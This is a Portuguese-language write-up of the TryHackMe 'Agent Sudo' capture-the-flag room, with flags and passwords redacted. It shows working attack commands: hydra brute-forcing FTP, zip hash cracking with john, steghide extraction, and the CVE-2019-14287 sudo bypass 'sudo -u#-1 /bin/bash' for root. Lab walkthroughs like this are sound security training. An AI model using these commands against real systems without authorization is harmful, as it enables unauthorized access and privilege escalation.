






# Agent Sudo Writeup

> [!NOTE] 
> **[EN]** This version of the writeup is in portuguese. Click [here]() or follow [this link (github)]() to go to the english version.

> **Link para o desafio CTF**: [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)
> 
> **Dificuldade:** `Fácil`
> 
> **Data de Resolução:** `2026/06/07`
## Sumário

> Link do writeup no github: [https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Agent%20Sudo/(PT-BR)%20AgentSudo%20Writeup.md](https://github.com/Luke0133/offsec-ctf/blob/main/CTFs/Agent%20Sudo/(PT-BR)%20AgentSudo%20Writeup.md)

- [Ferramentas Utilizadas](#ferramentas%20utilizadas)
- [Resolução do CTF](#Resolução%20do%20CTF)
	1. [Reconhecimento](#Reconhecimento)
	2. [Exploração](#Exploração)
	3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)
- [Conclusão](#Conclusão)
- [Referências](#Referências)
## Ferramentas Utilizadas

Para este CTF, foram utilizadas as seguintes ferramentas:
- [Nmap](https://nmap.org/)[^nmap]: ferramenta de exploração da internet, criada para escanear rapidamente redes de larga escala. O Nmap realiza diversas requisições para um IP para determinar quais hosts estão disponíveis naquela rede, quais serviços que eles oferecem (por exemplo, HTTP, ssh, ...), quais sistemas operacionais (e versões destes) estão utilizando dentre outras informações. Sendo uma ferramenta poderosa para a enumeração de serviços e fornecimento de informações básicas sobre os hosts de uma rede, dados essenciais para alguém que está tentando invadir um sistema, o Nmap é muito utilizado em situações de pentesting e geralmente faz parte do primeiro passo nos CTFs.
- [Gobuster](https://github.com/OJ/gobuster)[^gobuster]: ferramenta responsável por enumerar por força bruta diretórios e arquivos, detectar subdomínios DNS e hosts virtuais, dentre outras funções. Por ser de alta performance, o Gobuster é essencial para agilizar o processo de encontrar diretórios de sistemas, poupando o desgaste da pessoa invasora de procurá-los manualmente, sendo, portanto recomendado para CTFs e pentesting.
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)[^hydra]: ferramenta de quebra de login que suporta diversos protocolos, dentre eles o SSH. Essa ferramenta torna possível mostrar o quão fácil pode ser ganhar acesso remoto a um sistema sem a devida autorização. A hydra é, portanto, uma ótima ferramenta para descobrir a senha em sistemas e pode testar várias senhas, dado um arquivo, permitindo assim uma força bruta com senhas mais comuns, por exemplo, sendo bem útil também para contextos de CTFs, em que o arquivo com senhas para testar pode estar escondido no sistema. 
- [John the Ripper](https://github.com/openwall/john)[^john]: ferramenta usada para quebra de senhas, assim como o `hashcat`[^hashcat]. Além da descoberta de senhas, ele pode ser usado para a auditoria de credenciais e testes de robustez de senhas, podendo não só recuperar senhas a partir de hashes, mas também a partir de arquivos protegidos e dumps de autenticação (vindos de tokens de autenticação, por exemplo). 
- [BurpSuite](https://portswigger.net/)[^burpsuite]: plataforma para testes de segurança em aplicações web. Contém diversas ferramentas para interceptar, analisar e manipular tráfego HTTP/HTTPS. Com o seu propósito de encontrar vulnerabilidades em aplicações e com muitas ferramentas, se torna útil para contextos de CTF.
- [Binwalk](https://github.com/ReFirmLabs/binwalk)[^binwalk]: programa que identifica e extrai arquivos escondidos em outros, principalmente em imagens.
- [Steghide](https://steghide.sourceforge.net/)[^steghide]: programa de esteganografia que é capaz de esconder dados em diferentes tipos de arquivos. Da mesma forma que esconde, é capaz de extrair esses dados escondidos.

Além de recursos como:
- [CyberCheff](https://gchq.github.io/CyberChef/)[^cyber]:  site que facilita a identificação e reversão de dados codificados como base64, códigos hexadecimais, etc. Útil para agilizar o processo e diferenciar hashes de codificações básicas.
## Resolução do CTF

O CTF Agent Sudo, disponível no TryHackMe, é um desafio de dificuldade fácil que requer a exploração de um sistema para achar a flag de usuário e de root. Esse CTF envolveu a interceptação de pedidos http e conceitos de esteganografia.

Após conectar-me ao VPN do TryHackMe, obtive acesso à maquina e iniciei o desafio. A estratégia usada foi dividida em duas partes:

1. [Reconhecimento](#Reconhecimento)
2. [Exploração](#Exploração)
3. [Escalação de Privilégios](#Escalação%20de%20Privilégios)

Para facilitar a entrada de argumentos, adicionei ao `etc/hosts` uma relação entre o IP da máquina vulnerável com um nome de domínio (`vul.net`). Com tudo preparado, comecei o reconhecimento.

### Reconhecimento

A primeira coisa que fiz para o reconhecimento da máquina-alvo foi uma enumeração da rede com o `nmap`[^nmap], executando:

```sh 
nmap -T5 -A vul.net
```

em que `-T5` representa o template de temporização (de 0 a 5, quanto maior, mais rápido, ou seja, mais interações e menos discrição, o que não costuma ser um problema em CTFs básicos) e `-A` habilita a detecção de SO, detecção de versão, traceroute e scan de scripts. Dados relevantes da enumeração estão a seguir:

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-07 14:49 -0400
Nmap scan report for vul.net (<TARGET_IP>)
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
#[...]
```

em que percebi que o sistema era baseado em Apache, com as portas abertas sendo 21 (ftp), 22 (ssh) e 80 (http), então já decidi enumerar os diretórios com o `gobuster`[^gobuster] enquanto eu começava a exploração:

```sh
gobuster dir -u http://vul.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50   
```

Este comando busca os diretórios com a wordlist fornecida (`-w`, com uma wordlist contendo uma lista de diretórios mais comuns), no url fornecido (`-u`) e com as extensões fornecidas (`-x`, em que coloquei as mais comuns como php, html e txt), na quantidade de threads fornecida (`-t`, e, mais uma vez, discrição não é essencial nesse CTF, então o número escolhido foi alto para agilizar o processo). O resultado final obtido foi o seguinte:

```sh
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://vul.net
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 218]
server-status        (Status: 403) [Size: 272]
Progress: 882232 / 882232 (100.00%)
===============================================================
Finished
===============================================================
```

Apenas a página inicial foi retornada pelo `gobuster`[^gobuster]. Com isso, comecei a exploração de forma trivial, acessando `http://vul.net`.
### Exploração

Ao acessar `http://vul.net`, deparei-me com a seguinte mensagem:



A mensagem indicava para os "agentes" que deveriam usar o seu próprio `user-agent` para acessar o site. Como ela foi escrita pelo agente `R`, pensei em usar o `burpsuite`[^burpsuite] para interceptar e alterar o `user-agent` do pedido http `GET` desta página para `R`. Ao fazer isso, a mensagem que apareceu foi outra:



Uma dica valiosa apareceu nessa mensagem: existem outros 25 agentes além de `R`, o que me levou a considerar testar as outras letras do alfabeto. Usando a função `intruder` do `burpsuite`[^burpsuite], configurei para testar todas as letras do alfabeto para testar, com força bruta, os possíveis `user-agents`:



E como resultado, vi que o tamanho da resposta para o `user-agent` `C` era visivelmente diferente do padrão de 445 e 446, assim como o tamanho da resposta de `R`:



Ao trocar o `user-agent` para `C`, a mensagem era outra:



Pelo que a mensagem indicava, tanto a senha do agente `J` quanto a do agente `C` não eram fortes. Com isso, decidi explorar o serviço ftp, que não tinha acesso anônimo, mas que talvez poderia ser acessado com força bruta, usando o seguinte comando com o `hydra`[^hydra] para fazer um ataque de força bruta ao usuário `chris`:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://vul.net 
```

Esse comando testa o login (`-l`) para um usuário (`chris`) com o arquivo contendo senhas (`-P`) `rockyou.txt` no serviço ftp do ip e porta dados. O resultado que obtive foi:

```sh
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-06-07 15:21:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://vul.net:21/
[21][ftp] host: vul.net   login: chris   password: <PASSWORD_CHRIS>
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 11 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-07 15:22:47
```

Com a senha de `chris` para o serviço ftp, consegui acessar os arquivos, encontrando um arquivo de texto e duas imagens:

```sh
$ ftp vul.net   
Connected to vul.net.
220 (vsFTPd 3.0.3)
Name (vul.net:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||53786|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
```

O arquivo `To_agentJ.txt` continha a seguinte mensagem:

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Isso indicava que a senha de `J` estava embutida em algum dos arquivos de imagem. Executando o `binwalk`[^binwalk] para `cute-alien.jpg` não informou nada, mas, para `cutie.png` indicou que havia um arquivo zip embutido:

```sh
$ binwalk cutie.png     

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820        
```

Extraindo o arquivo comprimido, descobri que ele precisava de uma senha, mas, usando o `JohnTheRipper`[^john], consegui achar a senha e acessar os conteúdos do zip:

```sh
$ zip2john 8702.zip > hash.txt      
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt     
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 SSE2 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSWORD_ZIP>            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2026-06-07 15:33) 1.149g/s 28248p/s 28248c/s 28248C/s travon..280789
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

O arquivo que estava comprimido era o `To_agentR.txt`, o qual continha a seguinte mensagem:

```sh
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

O conteúdo entre aspas parecia estar embaralhado de algum jeito. Por meio do `CyberChef`[^cyber] descobri que essa string estava encriptada com Base64:



A partir da `<PASSWORD_TXT>` consegui acessar os conteúdos de `cute-alien.jpg` com `steghide`[^steghide]:

```sh
$ steghide --extract -sf cute-alien.jpg
Enter passphrase: 
wrote extracted data to "message.txt".
```

O texto que estava em `messate.txt` era:

```
Hi james,

Glad you find this message. Your login password is <PASSWORD_J>

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Sabendo o nome de `J` e a sua senha, consegui conectar-me no serviço ssh de `james`:

```sh
ssh -p 22 james@vul.net
james@agent-sudo:~$ whoami
james
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
```

Entrando em `/home/itguy`, encontrei a `<USER_FLAG>` em `user_flag.txt`:

```
james@agent-sudo:~$ cat user_flag.txt
<USER_FLAG>
```

Além disso, a imagem `Alien_autopsy.jpg` referia-se a uma falsa notícia de uma autopsia de alienígena (Roswell alien autopsy), interessante. 
### Escalação de Privilégios

Por fim, era necessário escalar privilégios e encontrar a flag em `/root`. Para isso, testei no terminal as permissões do usuário `james`:

```sh
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Todos os usuários, menos `root` poderiam usar o comando `/bin/bash`. Porém, a `CVE-2019-14287`[^CVE-2019-14287] mostrava que eu poderia tentar executar o comando `sudo` como o usuário `-1` e obter privilégio de `root`, e isso funcionou:

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
```

Assim, consegui encontrar a flag de root, `<ROOT_FLAG>`, presente em `/root/root.txt`:

```
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
<ROOT_FLAG>

By,
DesKel a.k.a Agent R
```

e finalizei o CTF.
## Conclusão

O CTF Agent Sudo permitiu entender melhor técnicas de interceptação de mensagens http e de esteganografia para encontrar mensagens secretas no serviço web e em imagens. A partir disso, foi possível acessar, com a quebra de hashes, o serviço ftp e encontrar a senha de `james` escondida em um dos arquivos, permitindo a conexão ssh, na qual encontrei a flag de usuário e, com uma vulnerabilidade do `sudo`, escalei o privilégio e encontrei a flag do root e, assim, concluir o CTF.
## Referências

[^nmap]: Nmap: [https://nmap.org/](https://nmap.org/)
[^gobuster]: Gobuster: [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)
[^hydra]: Hydra: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
[^john]: JohnTheRipper: [https://www.openwall.com/john/](https://www.openwall.com/john/)
[^hashcat]: Hahscat: [https://hashcat.net/](https://hashcat.net/)
[^burpsuite]: [https://portswigger.net/](https://portswigger.net/)
[^steghide]: Steghide: [https://steghide.sourceforge.net/](https://steghide.sourceforge.net/)
[^binwalk]: Binwalk: [https://github.com/ReFirmLabs/binwalk](https://github.com/ReFirmLabs/binwalk)
[^cyber]:  CyberCheff: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
[^CVE-2019-14287]: CVE-2019-14287 quanto ao comando `sudo`: [https://nvd.nist.gov/vuln/detail/cve-2019-14287](https://nvd.nist.gov/vuln/detail/cve-2019-14287)

